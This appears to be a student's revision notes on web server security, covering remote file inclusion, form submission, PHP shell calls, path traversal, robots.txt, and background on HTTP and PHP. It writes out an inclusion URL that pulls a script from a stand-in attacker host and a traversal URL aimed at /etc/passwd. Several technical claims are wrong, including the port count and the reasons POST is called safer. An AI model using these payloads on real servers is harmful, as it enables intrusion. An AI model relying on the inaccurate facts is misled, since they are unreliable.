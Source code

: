 ```yaml
---
layout: notes
title: Web Server Security Issues
part: true
---
```


> **Note.** In the revision lecture, Ligang mentioned that web server will not be tested during the exam 🥳

A large part of this topic was meant for us to understand more about the interactions between a client and the web server – which was relevant for our coursework at the time.

What I have done is included the main security issues at the top of this page, however if there is trouble understanding somethings then you might need to read the sections to understand more about PHP, HTTP requests, Client and Web Server interaction etc. 

## Remote File Inclusion (RFI) Vulnerability

If the URL sent by the user is:

http://yoursite.com/index.php?page=http://ev.il/badscript.php?

include `$_GET[‘page’]”.html”` becomes:

```
include http://ev.il/badscript.php?.html
```

What happens is that `badscript.php` will be run, because the content after “?” will be interpreted as input parameter of the php script. 

## Forms

> A **form** is used to pass information from a web browser to a web server. 

There are 2 different ways to submit a form, GET or POST. Especially when forms contain sensitive information, POST is **always safer** than GET. When a form is sent:

- GET request will have form parameters encoded in the head of the HTTP request as the address of the resource that we want to access. 
- POST requests will have the form parameters placed in the body of the HTTP requests. More **secure** because we can encrypt the HTTP request.

### Call OS commands in PHP

When using PHP, sometimes developers make the mistake of running shell commands through the PHP file that has a parameter/variable that depends on **form inputs**. 

> This is a potential vulnerability as an attacker can send code through these inputs and can make the web server OS perform commands that could compromise security.

## Path Exploits

Path exploits try to enter the directory or access files that are not intended to be accessible. 

For example, if the user in put the web address:

http://www.example.com/home/users/.../etc/passwd

Without proper configuration, the passwd file will be displayed. When allow `_url_fopen` (a directive in the php configuration file - php.ini) is set to “on” – User’s will be allowed to retrieve and display the file in server, even if the file is not a typical web page (e.g. html or php).

## Robot Exclusion Protocol

> Web crawlers or Web robots systematically scan the World Wide Web to mine data.
>
> Robot Exclusion Protocol (REP) specifies which directories of the website that the robot should not scan. 

Instructions are written in the robots.txt file, which is in the root directory of the web server. Example:

```txt
User-agent:* # apply to all robots
Disallow:/local/secure.html

User-agents:Googlebot # apply only to Googlebot
Disallow:/private/
```

When there is sensitive data, we should exclude robots from crawling those files.

## Accompanying resources

That concludes the content covering potential security issues related to web servers. The content below is an additional resource to give background information about the Web Servers, PHP and HTTP requests. I recommend that you give it a read if you’re not confident in your knowledge of this topic.

### Interaction between Client and Web Server

In general there are 5 main steps between client and server

1. User issues URL from a browser
2. Browser sends a request message
3. Server maps the URL to a file or program under the document directory
4. Server returns a response message
5. Browser formats the response and displays

### HTTP Request

When a client types a URL address into the browser, our browser composes a message such as

```http
GET /docs/index/.html HTTP/1.1
Host: www.nowhere123.com
Accept: image/gif, image/jpeg, */*
Accept-Language: en-us
Accept-Encoding: gzip, deflate
User-Agent: Mozzila/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
{blank line}
```

The message consists of a number of lines. The first line is the request line. 

- **Format**: <u>message_name</u>  <u>request-uri</u> (address of the resource we want to access)  <u>HTTP-version</u>. 
- In the example this is the first line.

Request line is followed by request headers

- **Format**: <u>name</u> : <u>value</u> pairs
- In the example this is the 2nd line. Name is "Host". Value is "www.nowhere123.com"

Request line and request headers are together called request message header, followed by request message body. In the example above, the request message body is blank. 

#### HTTP Request Methods

- HTTP protocol defines a set of request methods.
  - in the example above, the message is **GET** - when we type an address in the browser search bar, we always trigger a GET request. 

**Methods supported by web server**

- **GET** : get a web resource from the server
- **HEAD**: get the header that a GET request would have obtained
- **POST**: Used to post the data up to the web server
- **PUT**: Ask the server to store the data
- **DELETE**: Ask the server to delete the data
- **OPTIONS**: Ask the server to request the list of request methods it supports

#### How HTTP server process requests

##### Listening

HTTP server listens to the port(s) specified in the configuration file of the server

- Port is the endpoint communication destination and is associated to a process/service
  - the request arriving at a certain port will be processed by the associated service
- port is a 16 bit number- there are 66536 ports in a computer
- http: 80, ssh: 22, ftp: 21, smtp: 25, etc. 

##### Processing 

After the server receives the request there are three general ways to process to request

1. map the request to a **file** in the directory in the server, and returns the file to the client
2. map the request to a **program** in the server, executes the program, and returns the output of the program to the client. (e.g. post request, CGI)
3. the request cannot be satisfied, the server returns an **error** message. 

If the webpage is HTML file, CGI is one way to invoke a program in the server. If we use PHP to write a webpage we can embed functions in the web page. PHP is a tool for making dynamic web pages. 

### PHP

A section in HTML file. Here is an example:

```php+HTML
<?php
echo My first PHP 
?>
```

**Dynamic file loading in PHP**

Suppose the link of your website is: http://yoursite.com/index.php

In the webpage, there is the following php code:

```php+HTML
<?php include $_GET['page']".html"; ?>
```

PHP supports loading a file based on data passed via the URL parameter.

When the user types the following web address:

http://yoursite/com/index.php?page=photos

- The content after “?” is interpreted as the parameter of the request
- i.e. index.php is run with “page=photos” as input parameter. 

Lets look more at `include $_GET['page']".html`: 

In PHP there are internal arrays which are used to hold information that are passed from the client. The `$_` tells PHP that we are trying to access an array and `GET['page']` tells PHP we are trying to access the `page` variable in the `GET` array. The `include` statement loads “photos.html” because we pass page=photos.

It is a dynamic web page, because the same source of the web page displays different content depending on the user’s input

For example, if the user types `page=contact`, then contact.html page will be loaded instead.

